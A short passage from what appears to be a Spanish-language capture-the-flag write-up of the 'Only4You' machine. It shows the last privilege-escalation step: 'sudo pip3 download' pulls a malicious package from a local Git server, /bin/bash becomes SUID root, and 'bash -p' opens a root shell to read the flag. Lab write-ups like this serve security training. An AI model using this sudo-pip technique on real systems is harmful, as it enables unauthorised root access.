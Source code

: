Ejecuto, me convierto en ```root``` y puedo ver la segunda flag

```null
john@only4you:/tmp$ sudo pip3 download http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
     - 2.7 kB 11.5 MB/s
  Saved ./this_is_fine_wuzzi-0.0.1.tar.gz
Successfully downloaded this-is-fine-wuzzi
```

```null
john@only4you:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```
```null
john@only4you:/tmp$ bash -p
bash-5.0# cat /root/root.txt
f814331f4fb4156b06f9a254b13e5104
```